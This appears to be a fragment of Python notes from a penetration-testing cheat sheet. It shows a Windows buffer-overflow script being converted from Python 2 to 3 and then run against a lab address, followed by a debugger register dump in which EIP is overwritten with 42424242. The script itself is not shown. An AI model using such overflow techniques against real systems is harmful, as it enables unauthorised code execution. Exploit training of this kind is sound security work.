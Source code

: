 ```python
r.sendline(payload)
```

	python3 bof_win.py 10.10.0.2 3333 // doesn't work

Convert Python 2 script:

	2to3-2.7 bof_win.py -w

```
RefactoringTool: Skipping optional fixer: buffer
RefactoringTool: Skipping optional fixer: idioms
RefactoringTool: Skipping optional fixer: set_literal
RefactoringTool: Skipping optional fixer: ws_comma
RefactoringTool: Refactored bof_win.py
--- bof_win.py  (original)
+++ bof_win.py  (refactored)
@@ -2,7 +2,7 @@
 import sys
 
 if len(sys.argv) < 3:
-    print "Usage: {} ip port".format(sys.argv[0])
+    print("Usage: {} ip port".format(sys.argv[0]))
     sys.exit()
 
 ip = sys.argv[1]
RefactoringTool: Files that were modified:
RefactoringTool: bof_win.py
```

	python3 bof_win.py 10.10.0.2 3333	// success

```
EAX 00000010
ECX 00000002
EDX 0019F918
EBX 00312000
ESP 0019FD54 ASCII "CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC
EBP 41414141
ESI 00464C28 ASCII "0LF"
EDI 00464CA0
EIP 42424242
```

### Create binary executables [^1]

```
Windows:	py2exe, PyInstaller, Nuitka
Linux		Freeze, PyInstaller
Mac:		py2app
```

### Decompile pyc files [^2]

